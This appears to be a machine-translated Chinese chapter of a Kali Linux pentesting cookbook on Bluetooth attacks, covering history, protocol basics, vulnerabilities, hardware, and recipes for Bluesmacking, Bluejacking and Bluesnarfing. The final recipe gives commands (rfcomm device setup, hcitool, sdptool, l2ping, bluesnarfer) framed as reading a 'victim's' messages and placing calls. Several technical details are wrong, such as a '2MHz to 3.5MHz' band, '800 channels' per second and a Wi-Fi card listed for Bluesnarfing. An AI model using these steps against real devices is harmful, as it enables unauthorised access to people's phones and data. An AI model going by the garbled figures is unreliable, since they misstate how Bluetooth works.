





# 蓝牙攻击

在这一章中，我们将涵盖以下食谱：

+   蓝牙的简史

+   蓝牙的运作

+   蓝牙的漏洞

+   选择蓝牙硬件

+   蓝牙干扰

+   蓝牙劫持

+   蓝牙技术

# 介绍

蓝牙是另一种流行且广泛使用的无线技术，已经有超过十年的历史了。它在我们使用的技术方面存在许多方面。然而，虽然我们许多人确实使用蓝牙设备和技术，但可能存在一些关于蓝牙具体是什么、它的设计目的以及它的工作原理的困惑或缺乏清晰度。由于攻击和破坏蓝牙和蓝牙设备在很大程度上取决于对技术工作原理的深入了解，因此我们实际上有必要了解一些关于技术背景以及技术是如何设计和实施的，以及它是如何产生的。出于这种精神，我们将从蓝牙的历史开始，了解它是如何应对它设计面临的挑战的。接下来将进行技术讨论，讨论蓝牙中存在的一些可以被利用的漏洞。因此，让我们从讨论蓝牙技术的历史和演变开始，然后再深入了解整个过程的机制。

# 蓝牙的简史

蓝牙技术最初是由瑞典电信公司爱立信发明和提出的。蓝牙的最初概念始于 1989 年，当时该公司的一群工程师决定或被要求提出一种能够在个人电脑和耳机之间传输和启用通信的短距离无线电技术。正是这种通过短距离无线电链接连接设备的核心概念推动了技术的发展，使其能够连接不仅仅是耳机和个人电脑，而是后来的各种类型的设备，就像我们今天看到的那样。

在 90 年代，随着个人数据助手或 PDA 等便携式技术的发展，人们构想了蓝牙的新概念和实现。使用这些早期 PDA 设备的技术爱好者，比如 Palm Pilot 的用户，希望能够连接到周围可用的不同设备。这些人希望能够使用短距离技术，走进一个房间并连接到打印机、扫描仪或其他服务和设备。正是因为这种愿望和动力，蓝牙很快被视为解决这个问题的方案。

那么蓝牙这个名字实际上是从哪里来的呢？好吧，万一你是那些之前没听过这个故事的人之一，让我简要地回忆一下。蓝牙这个名字是对 10 世纪丹麦国王哈拉尔德·布拉特兰的英语化翻译。这位国王因两个非常重要的特点而闻名 - 或者至少对我们来说很重要。首先，他以统一丹麦和挪威各族人民而闻名。其次，他因蓝牙而得到绰号，根据传说，他要么有一颗明显的坏牙，看起来是蓝色的，要么他的牙齿因大量食用蓝莓而染成了蓝色。后者是否属实很难说，但事实是蓝牙现在被用作这项技术的名称。原因是，就像国王一样，蓝牙技术被用来统一许多不同的技术，并允许它们使用一个标准规范进行交流和互操作。这意味着无论您的设备来自哪个供应商或其他来源，只要它遵守蓝牙标准，它就可以与另一个供应商的设备进行通信，几乎没有问题。

另一个有趣的注脚；蓝牙标志是国王哈拉尔德的姓名首字母的组合。以下图表显示了蓝牙标志是如何衍生出来的：


蓝牙标志的创作

当蓝牙首次亮相时，可以说是竞争对手的主要技术是红外线技术。红外线技术允许，或者应该允许，打印机和扫描仪等设备能够在短距离内无线通信。在 90 年代，红外线技术是笔记本电脑和打印机等设备的一个相当常见的附加功能。因此，如果蓝牙是新兴标准，而红外线已经存在于市场上，为什么红外线不再普遍存在，为什么没有蓝牙技术的替代品呢？嗯，这有一个答案，但有点复杂。与红外线等其他技术不同，蓝牙允许最多八个设备通过短距离无线电技术同时配对并形成一个网络来交换信息。事实上，在某些领域，蓝牙被称为个人区域网络技术，或 PAN。在这种设置中，每个配对的设备本质上都作为这个小型网络环境中的自己的节点。当然，为了实现这种互操作性，所有这些设备不仅必须具备蓝牙功能，而且它们必须使用标准化的通信协议，这就是蓝牙在这个方程中提供的。以下图表是 PAN 的概念：


展示 PAN

讨论蓝牙时有趣的一点是，当它首次亮相时，蓝牙确实存在一些问题，就像任何新技术都会有的。在蓝牙的情况下，许多不同的供应商都迅速采用了蓝牙的想法，并赶紧将其实施到自己的产品线中并将这些产品推向市场。然而，这种匆忙也存在潜在的负面影响，在早期的蓝牙设备中表现得相当严重。在匆忙将蓝牙实施到他们自己的设备中时，制造商遇到了一个问题，即不同的蓝牙设备无法相互通信，即使它们被标记为蓝牙兼容。事实上，一些早期的蓝牙设备不仅无法与不同供应商的设备通信，甚至无法与同一供应商制造的设备通信。这带来了一些非常严重的问题；可以想象，消费者购买了声称与蓝牙兼容的设备，实际上它们各自实施了自己的蓝牙形式，与其他设备不兼容，消费者肯定不会满意。造成这种情况的主要原因是，当供应商匆忙将蓝牙技术实施到他们的产品中时，例如耳机，蓝牙标准尚未完全制定和商定，因此供应商不得不填补空白或调整他们认为应该的方式，并将结果标记为蓝牙。自那时起，技术已经得到了显著发展，困扰技术的早期问题已经消失，来自不同供应商的蓝牙设备现在可以快速而轻松地进行通信。

就技术而言，蓝牙标准与本书其余部分涉及的 Wi-Fi 技术有很多共同之处，但并非完全相同。最重要的一点是，就像 Wi-Fi 技术一样，蓝牙并不局限于任何一种产品或环境。蓝牙是一种通信标准，任何人都可以像使用 Wi-Fi 一样在任何技术中实现的。此外，蓝牙规范由蓝牙特别兴趣小组控制，这是一个负责保持标准更新以及控制和处理技术和商标许可的委员会，这些商标将被实施蓝牙的各种供应商使用。就像 Wi-Fi 一样，蓝牙也有许多标准；例如，在蓝牙 4.2 中，更新了功能集，使蓝牙在操作时消耗更少的电力，传输数据更快，并且比以前的版本提供了更好的安全性。蓝牙在过去几年中也发展，包括支持与人们在家中看到的新一代智能设备进行通信的能力，例如灯泡、开关、摄像头甚至恒温器。以下图表显示了蓝牙和智能家居背后的一些概念：


蓝牙生态系统。

如果我们不至少在这里花点墨水来谈谈可能被视为竞争技术的东西，我们就会疏忽大意了，这就是所谓的 Zigbee。这项技术在十多年前首次亮相，旨在允许使用无线电信号进行数据传输，覆盖更长距离，如 100 米，同时消耗更少的电力。最初，这项技术的范围使得它对依赖蓝牙的人们很有吸引力，因为它提供了更远的传输距离，主要是因为蓝牙的有效范围为 10 米，而这项技术的范围为 100 米。然而，自 2006 年以来，蓝牙已经包括了减少功耗的能力作为其核心能力之一。蓝牙还具有利用特殊天线和发射器来实现更远距离传输信号的能力。以下图片显示了一个 Zigbee 设置的示例：


展示 Zigbee 设置。

如今，蓝牙已经轻松主导了短距离无线市场，并已经应用于从智能手机到平板电脑，再到各种家用电器和设备以及汽车等各种产品。正因为技术得到了如此广泛的应用，它对于希望找到进入组织或窃取信息的攻击者来说是一个非常诱人和可行的目标。

# 对技术的一瞥

因此，通过蓝牙的历史和演变，我们已经了解了这项技术的起源和在功能和设计方面的位置，让我们继续讨论蓝牙的技术规格以及它与我们的关系。 

蓝牙是一种设计在 2MHz 至 3.5MHz 之间运行的技术。您可能已经知道或记得，这是一个全球无许可证的频段，用于工业、科学和医疗用途，通常称为 ISM 2.4GHz 短距离无线电频段。蓝牙在这个频段内运行，并使用诸如跳频扩频等技术来调制信号。以下图表显示了 ISM 频段的位置：



ISM 频段

当蓝牙传输信息时，它的工作方式类似于其他类型的网络，即通过将数据分成数据包，然后使用 79 个不同指定的蓝牙信道之一来传输每个数据包。每个信道都被分成 1MHz 的增量。在正常操作中，蓝牙每秒在 800 个信道之间跳跃。新一代的低功耗蓝牙设备利用 2MHz 的间隔，这意味着我们只有 40 个信道可以跳跃，而不是其前身使用的 79 个信道。

蓝牙的架构首先是基于数据包的，并且通过主从架构来传输信息和网络。这意味着我们有一个主设备，它与最多七个从设备在所谓的微型网中进行通信。主设备是所有设备都同步其时钟的设备，以确保传输正常工作和通信高效。为了简化，主设备负责保持网络中从设备的同步。此外，主设备可以在整个网络中传输所有数据。

在正常操作下，主蓝牙设备可以与其网络设置中的其他七个设备进行通信。正在建立的设置与 Wi-Fi 中的特设网络基本相同；在这种网络拓扑中没有固定的中心点。需要记住的是，虽然主设备是在与其他七个设备进行通信的设备，但并不总是必须有一个设备被固定或永久指定为主设备。事实上，设备可以随时在主设备和从设备之间切换。一个很好的例子是蓝牙耳机试图连接到手机。耳机实际上会作为主设备开始，因为它向智能手机或手机发起连接，但一旦连接建立，手机实际上控制通信，因此一旦切换完成，耳机就从主设备变为从设备。这可以通过任何蓝牙设置中的设备之间的协议来完成。

因此，让我们谈谈蓝牙中的具体数字，以便了解这些不同网络设计和设置的一些细节：

+   蓝牙 3.0 的最大速度为 25 MB，最大范围为 10 米或 33 英尺

+   蓝牙 4.0 的最大速度为 25 MB，最大范围为 60 米或 200 英尺

+   蓝牙 5.0 的最大速度为 50 MB，最大范围为 240 米或 800 英尺

在讨论蓝牙时需要记住的是，最大速度和范围可能会因存在的许多因素而发生显著变化。在范围的情况下，这里所述的数字将受到诸如天线设计或配置、电池电量和大气密度等条件的影响，这些条件可能会出现在较长的范围内，以及来自同一频率区域内其他设备的干扰。同样的条件也可能导致速度的损失或降低。无论如何，在最理想的条件下，你都不太可能达到任何特定蓝牙产品所宣称的速度和范围。

通过使用特殊适配器和天线，可以改变或修改蓝牙网络的范围，实际上许多这些设备都可以在第三方市场上获得。许多专用天线和设备之所以没有内置在大多数设备中，是因为对于大多数用户来说，增加的范围实际上并不是必需的，而且实际上会增加设备的成本。对于在短距离使用蓝牙的绝大多数消费者来说，蓝牙的短距离使用是理想的。

关于蓝牙与 Wi-Fi 的比较，你可能会问为什么使用其中一个而不是另一个，所以我们应该来看看。当我们看这两种技术时，我们可以看到它们非常相似，它们都用于共享信息、建立网络、打印、传输各种数据，甚至与其他设备和资源进行通信。在许多方面，蓝牙也解决了 Wi-Fi 在自己的环境中解决的有线问题，这里的区别在于我们谈论的有线是耳机和手机之间或打印机和计算机之间的有线。在 Wi-Fi 的情况下，我们谈论的是覆盖更大距离的有线。蓝牙也被设计为一种几乎不需要配置就可以有效使用的技术，而 Wi-Fi 在配置完成后需要更多的额外配置。值得注意的是，Wi-Fi 可以在自组网模式和基础设施模式下运行，但在蓝牙中，只有自组网模式；没有基础设施，因为没有蓝牙接入点。尽管蓝牙和 Wi-Fi 解决了两组不同的问题，并且在各自的环境中表现良好，但它们不应被视为竞争技术，而应被视为互补技术，因为它们可以很有效地共同工作。

# 蓝牙操作中

在正常操作下，蓝牙有一种非常特定的功能方式。我们提到了控制节点和客户节点之间的主从关系，以及它们如何来回切换，但这只是谜题的一部分。让我们来看看设备是如何学会彼此交流和交换信息的。

在蓝牙中，设备之间的通信是通过配对过程来实现的。配对是一种过程，其中一个设备设置为可被发现，意味着其他蓝牙设备可以扫描到它。扫描设备在找到可用的蓝牙设备后，将选择它作为要配对的对象。一旦选择完成，接下来发生的事情可能会有一点不同。在大多数情况下，主设备上会显示或记录一个验证代码，然后请求配对的设备必须确认此代码才能完成连接。在一些设备中，这个代码实际上是硬编码到设备中的，而在其他设备中，设备所有者可以自定义一个 PIN 码以增加安全性。无论哪种情况，一旦代码确认，就会假定这两个设备彼此认识，并且连接得到批准。以下图显示了蓝牙配对过程：


蓝牙配对过程

以下截图显示了一个配对请求屏幕：



配对请求

关于蓝牙中的可发现性，这种模式旨在基本上广播设备的名称，就像 Wi-Fi 中的 SSID 一样。然而，在蓝牙中，可发现性不仅可以打开和关闭，还可以在有限的时间内打开。这意味着手机可以设置为在五分钟内可被发现，如果在这五分钟内没有进行配对，设备将自动从可发现状态转为不可发现状态。这是因为如果设备保持可发现状态，周围的其他设备可以扫描到它，这可能允许恶意方试图连接或甚至篡改您的设备。大多数现代蓝牙设备默认为在配对尝试发起时保持可发现状态一段有限的时间，通常持续几分钟后再转为不可发现状态。

因此，有了这些知识，让我们继续讨论蓝牙可能存在的不同类型的攻击。你会发现，这一章中的许多攻击在很多方面都类似于我们在普通 Wi-Fi 中看到的攻击类型，这是因为 Wi-Fi 和蓝牙之间存在一些相似之处 - 但请记住，它们并不百分之百相同。两者在机制上绝对不相同，但在概念上有相当多的相似之处，这将使得攻击看起来非常相似，尽管在两种技术之间实际执行会有所不同。这很好，因为这意味着这些概念对你来说会很熟悉，这将使你有更多时间专注于蓝牙技术中概念的实际机制和技术细节的实现。

在 Linux 中，蓝牙协议栈是通过一组称为 BlueZ 的库来实现的。像大多数 Linux 发行版一样，Kali 默认安装了它，不需要额外的操作来使其存在（尽管您可能希望运行更新以获取协议的最新修复和补丁）。

在 BlueZ 中存在许多不同的工具，用于管理和探索蓝牙的功能和能力。其中有一些特别有用：

+   `hciconfig`：这个工具在 Linux 中的操作方式类似于`ifconfig`，主要区别在于它是用于蓝牙设备的。

+   `hcitool`：这是一个查询工具。它可以为我们提供设备名称、设备 ID、设备类和设备时钟。

+   `hcidump`：这个工具使我们能够嗅探蓝牙通信。

这些不是 Kali 中唯一可以操作蓝牙的工具，以下列表包含了其他一些存在的工具：

+   **Bluelog**：一个蓝牙现场调查工具。它扫描区域以找到尽可能多的可发现设备，然后将它们记录到文件中。

+   **Bluemaho**：用于测试蓝牙设备安全性的基于 GUI 的工具套件。

+   **Blueranger**：一个简单的 Python 脚本，使用 I2CAP ping 来定位蓝牙设备并确定它们的大致距离。

+   **Btscanner**：这个基于 GUI 的工具扫描范围内的可发现设备。

+   **Redfang**：这个工具使我们能够找到隐藏的蓝牙设备。

+   **Spooftooph**：这是一个蓝牙欺骗工具。

# 蓝牙协议栈

蓝牙设备不需要使用协议栈中的所有协议（就像 TCP/IP 协议栈）。蓝牙协议栈被开发用于让各种通信应用程序使用蓝牙。通常，一个应用程序只会使用这个协议栈的一个垂直切片。蓝牙协议层及其相关协议如下列出：

+   **蓝牙核心协议基带**：LMP、L2CAP、SDP

+   **电缆替换协议**：RFCOMM

+   **电话控制协议**：TCS 二进制、AT 命令

+   **采用的协议**：PPP、UDP/TCP/IP、OBEX、WAP、vCard、vCal、IrMC、WAE

除了协议层，蓝牙规范还定义了一个**主机控制器接口**（**HCI**）。这提供了一个命令接口给基带控制器、链路管理器，并访问硬件状态和控制寄存器，因此前面提到的工具如`hciconfig`、`hcidump`和`hcitool`都是以此命名。

# 蓝牙漏洞

蓝牙技术已经表明自己既非常方便又强大，但同时也表明它有自己的一种漏洞类型，这在其他技术中并不常见，或者至少不是以同样的形式出现。由于蓝牙的运作方式和设计，存在新类型攻击的明显可能性，并且在这个环境中已经出现了一些这样的攻击。

最近，一个名为 BlueBorne 的攻击家族出现在市场上。这些攻击旨在针对蓝牙设备。这些攻击被证明是相当令人不安和令人担忧的，因为它们依赖于一种新的通信机制，而不是旧的通信机制。如果我们看传统的攻击，它们通过网络技术传播，包括互联网、有线网络甚至 Wi-Fi。然而，在蓝牙的情况下，我们有一种技术，可以促进非常小的网络，但相似之处很快几乎有效地减少。这类攻击家族是如此危险，以至于攻击者可能从利用的那一刻起就获得对设备的完全和绝对控制。导致这类攻击的严重性和危险性的因素是，安全社区只是刚刚开始探索蓝牙的危险和问题以及它可能被利用的潜在方式。

还有其他因素使这类攻击以及我们将在本章中探讨的攻击比其他环境中看到的更加危险。蓝牙攻击最危险的一个方面是，它能够通过空气迅速传播，这既是因为无线技术的普及，也是因为这些设备的安全性仍在不断发展，并且在许多情况下可能缺乏安全性。其次，最近在蓝牙中出现的许多攻击允许绕过设备上存在的任何安全措施，因此意味着攻击可以保持有效地不被检测到。另一个令人担忧的问题是，连接到传统网络的蓝牙设备也可能允许恶意方找到进入安全网络的后门，因为连接到常规网络并启用蓝牙的设备可能允许攻击者将这些设备用作入口。最后，真正需要考虑蓝牙的一个最大问题是，可以通过蓝牙连接将文件推送到目标设备上，并在用户根本不必点击链接或采取任何行动的情况下执行。

在蓝牙环境中出现的一些攻击与在其他环境中看到的攻击相似，包括 Wi-Fi。让我们快速看一下其中一些攻击和漏洞，并简要讨论如何对抗这些攻击和漏洞：

+   **软件漏洞**：这并不是蓝牙独有的问题，但它确实在暴露蓝牙不同的漏洞和问题方面发挥了作用。由于软件的复杂性和规模的本质，一个软件完全没有任何错误或问题是不可想象的。事实上，您在计算机或设备上运行的每个软件都有错误，只是问题在于这些个别漏洞或问题有多少以及有多严重。新的蓝牙实现，如蓝牙 4.0，以及更新的操作系统和驱动程序在解决已出现的漏洞方面已经取得了长足进展，但无疑也引入了新的漏洞。这就是为什么蓝牙设备的所有者应该跟踪可能发布的任何新更新，并查看是否有可能影响他们的威胁，并相应地处理它们。

+   窃听：由于蓝牙在其核心是一种网络技术，因此它容易受到窃听等攻击。虽然窃听蓝牙设备需要一些额外的技巧和知识，但它仍然是一种可以针对这些设备和技术部署的有效攻击。然而，诸如加密之类的技术的使用已经在所有版本的蓝牙中实施（尽管在最新版本中做得更好），已经解决了与信息泄露和修改相关的问题。但是，请记住，尽管使用了加密技术的旧版本蓝牙可能使用了该技术，但加密技术实际上比新版本的要差得多。因此，有必要将使用旧蓝牙规范的设备升级到解决了这些问题的技术的新版本。

+   拒绝服务：与无线接入点、网站和应用程序一样，蓝牙通信技术也容易受到拒绝服务攻击，如果被攻击者针对并希望压倒系统或干扰信号，这是可能的。在蓝牙平台上，这实际上是一个非常难以有效防范的攻击，但可以做的是关闭设备中的蓝牙功能，消除目标，从而阻止拒绝服务攻击。

+   硬件缺陷：虽然您可以对运行在您的蓝牙智能手机、平板电脑或计算机上的软件进行大量修补和更新，但您无法控制的是您可能从第三方购买的设备，比如耳机。在许多情况下，这些设备没有更简单明显的方法（如果有的话）来更新其中的固件，以修复这些设备可能存在的弱点和漏洞。正因为如此，这些设备本身可能成为恶意方的可行目标，希望给您带来麻烦或烦恼。在一些情况下，唯一的解决办法就是停止使用这个蓝牙配件，转而选择一个没有漏洞的配件。

+   默认值：这是一个棘手的问题，因为在许多情况下，对于公司来说，有一些弱默认设置的设备并没有立即的解决方案。所谓的弱默认值是指，一些可以使用蓝牙配对的设备具有消费者无法更改的 PIN 码。这些 PIN 码是在工厂设置的，并且在设备的整个生命周期内保持不变。这使得设备容易受到攻击，因为攻击者可以通过一些调查或观察迅速查看设备，知道其制造和型号，并通过简单的互联网搜索找到该设备的默认 PIN 码并进行配对。虽然随着时间的推移，这个问题正在变得不那么严重，但仍然有一些设备，无论是新的还是旧的，其默认 PIN 码都无法被消费者更改。在这些情况下，如果这是一个严重的漏洞，你可能别无选择，只能放弃使用该设备，选择一个允许更改的新设备。

虽然我们还可以将其他漏洞添加到这个列表中，但这只是为了向您展示这项技术存在一些漏洞。请记住，最初这项技术并不是以安全性为目标构建的；安全性是事后嵌入解决方案的。这项技术的初衷是促进不同平台和供应商之间距离较近的设备之间的通信，而在这方面它取得了相当大的成功。然而，安全目标实际上最多只是一个次要目标，因此随着蓝牙在全球范围内的普及和使用，它不得不在安全方面做一些追赶。

一些已经成为相当大目标并引起了安全技术市场的关注的事情是蓝牙漏洞，这些漏洞可能存在于亚马逊 Echo 和谷歌 Home 设备中。事实上，据报道，至少有八种不同的漏洞针对这两种设备系列。这些设备及其相关的漏洞之所以如此糟糕和危险，是因为它们几乎无法被当前的安全技术和解决方案检测到。另一点需要考虑的是，这两种设备系列目前估计在全球各地的家庭和其他地方部署了至少 2000 万个易受攻击的设备。

这些类型的攻击是已经被称为**blueborne**攻击的一种形式，如前所述。

# 选择蓝牙硬件

让我们在本节中真正看一下一些硬件、组件和其他可以用来有效改进和操作蓝牙技术的物品。当我们探索一些不同的蓝牙硬件时，您会发现，从概念上讲，它与我们在 Wi-Fi 技术中看到的很多东西是相同的，但并非所有都是相同的。然而，无论概念是与 Wi-Fi 中看到的相同还是不同，我们都将加以介绍，以确保您知道并了解哪些组件转移到了蓝牙，哪些没有。

首先，让我们注意到，现在大多数系统，无论是笔记本电脑、台式机还是平板电脑或智能手机等任何移动设备，基本上都在出厂时内置了蓝牙功能。事实上，诸如汽车、收音机、游戏系统、玩具和许多其他包括互联网设备的设备现在也倾向于内置蓝牙。因此，您很可能会遇到具有内置蓝牙功能的设备，因此您可能无需为了进行蓝牙探索而向您的设备添加任何特殊功能。然而，在股票设备上通常内置支持蓝牙的硬件通常不具备您执行各种攻击所需的所有功能。然而，在那些不支持股票蓝牙或需要增强此功能的设备上，我们需要担心可以用来使这项技术工作的特殊硬件或附件。

今天市场上的大多数设备都将支持蓝牙。它已成为现代设备消费者的预期功能。可以说，过去十年内发布的任何设备都将具备蓝牙功能作为其功能集的一部分。

向笔记本电脑等设备添加蓝牙的最常见方法之一是简单地购买所谓的蓝牙 Dongle。这个 Dongle 通常是 USB 插头，可以插入计算机上的可用 USB 插槽，然后允许该 Dongle 与蓝牙设备配对，无论是打印机、鼠标还是其他外围设备。这种类型的解决方案在老设备上非常常见，并且在所有者希望添加此功能时会被实施。以下屏幕截图显示了一个蓝牙 Dongle：


蓝牙 Dongle

Dongles 对于为不具备蓝牙支持能力的设备添加蓝牙非常有用，但您可能会发现它们在我们将在本章中进行的测试类型方面存在限制。在本章的测试中，我们将不使用蓝牙 Dongles，因为在大多数情况下，它可能会限制我们打算执行的操作，尽管您可能希望尝试自行操作。

对我们在使用 USB 时重要的一个选择是增加 USB 适配器，它不仅仅是一个简单的转接器。这些专门的适配器增加了提高性能和数据传输速率的能力，甚至可以增加设备中可能存在的蓝牙范围。这对于技术爱好者或那些具有比其各自平台内置默认功能更高性能或不同数据传输要求的人来说并不罕见。与转接器基础解决方案一样，这些通常是以 USB 设备的形式出现。以下截图是一个蓝牙适配器：



Dlink 蓝牙适配器

在本章中，我们正在做的事情中，一个重要的问题是增加蓝牙设备的范围。在大多数情况下，蓝牙范围可以用非常短的距离来衡量，相对而言。在大多数情况下，可以预期蓝牙可靠地传输的距离大约为 10 米或大约 30 英尺。一些设备可能会改变这种能力，并将这个范围扩展到更远的距离，但在大多数情况下，这仍然是一个很大的距离。如果像我们在本章中要做的那样进行渗透测试探索，这就会带来问题，因为当你必须在目标的半径范围内保持不被发现时，或者甚至更接近以获得可靠的信号时，这是非常困难的。理想情况下，我们希望有一种情况，可以从比大多数现货设备提供的范围更大的范围攻击和与目标互动。在这种情况下，我们可以获得专为工业应用设计的蓝牙适配器，在某些情况下可以达到几百英尺，甚至几千英尺的距离。这种类型的适配器通常是为工业或专业应用而设计的，必须作为 USB 设备在售后购买，并且可以插入任何空闲的 USB 端口，并且在操作系统的帮助下，可以通过特殊驱动程序进行完全交互。以下照片是一个工业蓝牙适配器：



Sena 蓝牙适配器

蓝牙使用的另一种硬件是可以非常有帮助的特殊天线，可以扩展这些适配器的范围。像之前提到的那种适用于工业应用的适配器，在很多情况下都有能力螺丝或螺栓固定天线，可以改变设备能够接收的范围。这意味着一个设备可能只能检测到几百英尺范围内的蓝牙信号，但可以将范围扩展到几千英尺。如果您需要这种范围，重要的是购买一个具有插入外部天线的适配器，并了解它所需的连接类型，因为特殊连接可能会有所不同。以下图片显示了一些蓝牙适配器和一些天线的示例：



带外部天线的适配器。

在谈论蓝牙功能和可能需要的选项时，值得讨论的最后一点是数据包注入。数据包注入是一种我们已经在 Wi-Fi 中看到的技术，特别是在之前的章节中进行 WEP 破解时。如果你还记得，我们使用数据包注入将 ARP 广播数据包放入网络并生成大量流量。内置在笔记本电脑、智能手机或平板电脑等设备中的蓝牙适配器几乎永远不会具备这种功能作为其原始功能的一部分。原因是大多数消费者不需要这种能力，而且这会增加设备的成本；因此，通常不会添加。因此，如果你决定以后进行任何需要进行数据包注入的攻击，几乎肯定会在几乎每种情况下选择外部适配器。

有了这些关于蓝牙硬件的细节，让我们继续看看我们可以使用蓝牙进行的一些攻击。

# 攻击类型

针对无线网络认证的攻击多种多样，每种攻击都有其自身的优势和劣势，使其在特定情况下有用或无用。

在我们开始探索每一种攻击之前，让我们首先列出本章将涵盖的攻击：

+   Bluesmacking

+   蓝牙劫持

+   Bluesnarfing

+   MAC 地址欺骗

+   中间人攻击

请记住，这些只是可以用来颠覆无线网络认证的攻击类型中的一小部分；它们绝不能被认为是唯一的攻击类型。

# Bluesmacking

我们将要介绍的第一种攻击类型被称为 Bluesmacking，是针对这种协议的较早的攻击类型之一。在我们对这种攻击的探索中，你会发现它是对网络、设备和应用程序的一种常见攻击的变种，被称为**拒绝服务**。

简而言之，当我们进行 Bluesmacking 攻击时，我们正在进行一种攻击，通过这种攻击，一个特制的数据包可以使设备无法使用。这种攻击通过传输一个数据包，该数据包超出了蓝牙设备可用的最大数据包大小。最终结果是设备无法处理该数据包，目标成为了拒绝服务的受害者。这种攻击是著名的攻击**死亡之 ping**的变种。

那么什么是 ping of death？ping of death 是一种经典的 DoS 攻击，由恶意方传输一个大于 IP 协议允许的 65,536 字节的 IP 数据包而生成。由于 IP 协议依赖于分段的使用，攻击者很快发现，如果他们将一个数据包分成片段，目标可以重新组装并超过这个 65,536 的限制。由于操作系统从未设计接收这么大的数据包，它们在接收到这个数据包后会冻结、崩溃或重新启动。

增加这种类型攻击的危险性的最后一点是，接收者的身份可能被欺骗。

作为对这种攻击的回应，产品供应商在 1997 年修补了他们的设备和软件，以减少这种攻击的可能性。然而，它仍然存在于蓝牙中。

这种 DoS 的影响可以采取多种形式，所有这些形式都会使目标设备在一段时间内无法使用。影响可能是设备被攻击者压倒，导致其无法被所有者操作并耗尽设备的电池，影响攻击后设备的持续运行。

# 准备工作

要开始进行操作，你需要准备以下物品：

+   一个蓝牙设备或外部适配器

+   Kali Linux

# 如何做...

为了进行 Bluesmack 攻击，我们将使用内置的 BlueZ 堆栈的一部分来实现。这可以是对蓝牙设备的一种非常有效的攻击，它可以有效地使受害者别无选择，只能关闭他们的设备、蓝牙，或者离开范围。

1.  首先，让我们在终端上使用`hciconfig`确认我们的蓝牙适配器是否已打开和被识别：

```
 hciconfig 
```

命令的结果看起来像以下的屏幕截图：


从这个屏幕截图中，您可以看到蓝牙适配器带有一个地址（就像物理网络适配器上的 MAC 地址一样）。它还有一个名字叫`hci0`。

1.  我们可能需要启动和启用蓝牙适配器，以确保它已准备好使用，通过发出以下命令：

```
 hciconfig hci0 up 
```

1.  现在我们将使用`hcitool`在区域内扫描蓝牙设备。我们首先使用该工具的扫描部分来寻找发送发现信标的蓝牙设备（处于发现模式）：

```
 hcitool scan 
```

1.  一旦命令列出了您希望进一步调查的设备，您可以使用`inq`命令来查询设备。您可以像这样使用该命令：

```
 kali > hcitool inq 
```

这将显示不同类型的信息，包括类信息，告诉我们正在扫描的设备类型。

1.  接下来，我们将使用**服务发现协议**（**SDP**）在设备上搜索服务。BlueZ 包括一个名为`sdptool`的工具，它能够浏览设备提供的服务。我们可以通过输入以下命令来使用它：

```
 sdptool browse <MAC Address> 
```

1.  有了附近设备的 MAC 地址，我们可以对它们进行 ping 操作，无论它们是否处于发现模式，以查看它们是否在范围内：

```
l2ping <MAC address> 
```

这表明具有 MAC 地址`76:6F:46:65:72:67`的设备在范围内并且可达。

# 蓝牙劫持

蓝牙劫持是另一种可以通过蓝牙对易受攻击的设备进行的攻击。然而，在进行蓝牙劫持之前，讨论它是如何工作的是很重要的。简而言之，蓝牙劫持是一种攻击，未经请求的消息通过蓝牙传输到蓝牙设备，如手机、PDA、笔记本电脑等，通过 OBEX 协议向另一个蓝牙设备发送一个通讯录，其中通常包含名称字段中的消息。请记住，蓝牙劫持者不会通过蓝牙劫持技术控制您的手机；攻击者只是通过蓝牙发送消息。将这种类型的攻击视为使用蓝牙协议进行垃圾邮件发送。

我在这里展示这种攻击，是为了完整地展示蓝牙设备中存在的漏洞。这种类型的攻击不需要 Kali 来成功执行。

# 准备就绪

要开始，您需要准备好以下物品：

+   蓝牙适配器

+   Kali Linux

# 如何做...

以下是执行此攻击的步骤：

1.  转到通讯录。创建一个新联系人。

1.  创建联系人时，将您希望通过蓝牙劫持的消息输入到联系人名称部分。

1.  选择通过蓝牙发送卡片。

1.  搜索范围内的蓝牙设备。

1.  选择找到的设备之一。

1.  点击发送。

# 蓝牙窃听

蓝牙窃听是一种可以针对易受攻击的设备进行的有趣且非常强大的攻击。简而言之，蓝牙窃听是通过蓝牙连接未经授权地访问设备，通常是手机、笔记本电脑和类似类型的设备之间的连接。这种攻击可以访问目标上各种类型的数据和资源，有些手机用户可以复制图片和私人视频。

这种类型的攻击针对任何已打开连接并且可以被扫描方发现的蓝牙设备。关闭蓝牙以及使设备不可发现是解决此问题的一种方法。

对于要被攻击的设备，攻击者必须通过暴力攻击猜测设备的 MAC 地址。与暴力攻击一样，猜测正确的 MAC 地址只是时间问题。

蓝牙使用 48 位唯一的 MAC 地址，其中前 24 位对制造商是共同的。剩下的 24 位有大约 1680 万种可能的组合，需要平均 840 万次尝试才能通过暴力破解猜出。

# 准备就绪

要开始操作，您需要准备以下物品：

+   一张能够进入监视模式的无线网卡

+   Kali Linux

这里列出的项目是基本要求，如果需要，您可以轻松地使用更多（或不同）的组件。例如，如果您想要增强范围，可以使用一个带有外部天线连接的基于 USB 的无线网卡，以获得更好的接收效果。

# 如何做...

1.  现在 Bluesnarfer 已安装，配置`rfcomm`：

```
 mkdir -p /dev/bluetooth/rfcomm
 mknod -m 666 /dev/bluetooth/rfcomm/0 c 216 0
 mknod --mode=666 /dev/rfcomm0 c 216 0
 hciconfig -i hci0 up
 hciconfig hci0
```

1.  现在开始扫描潜在的漏洞：

```
 hcitool scan hci0 
```

1.  Ping 受害者，看看他在不在：

```
 l2ping  < victim mac addr> 
```

1.  浏览受害者的`rfcomm`频道进行连接：

```
 sdptool browse --tree --l2cap < mac addr > 
```

1.  现在 Bluesnarfer 已经设置好了。现在，您可以访问受害者的手机，查看短信，打电话等等。

```
 Bluesnarfer -r 1-100 -C 7 -b < mac addr > 
```
